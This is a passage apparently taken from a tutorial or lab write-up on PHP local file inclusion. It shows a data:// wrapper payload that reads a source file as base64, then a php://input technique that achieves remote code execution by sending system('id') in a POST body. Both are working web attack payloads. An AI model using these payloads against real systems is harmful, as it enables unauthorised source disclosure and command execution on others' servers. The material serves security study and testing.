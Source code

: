 ```bash
data://text/plain,<?php echo base64_encode(file_get_contents("safe.php")); ?>
```

![](/assets/img/posts/lfi/14.png)

**It's time for RCE again**

We will be utilising the `php://input` wrapper for this.

```bash
php://input <!---in vulnerable parameter--->
<?php system('id'); ?> <!---POST request body--->
```

![](/assets/img/posts/lfi/15.png)
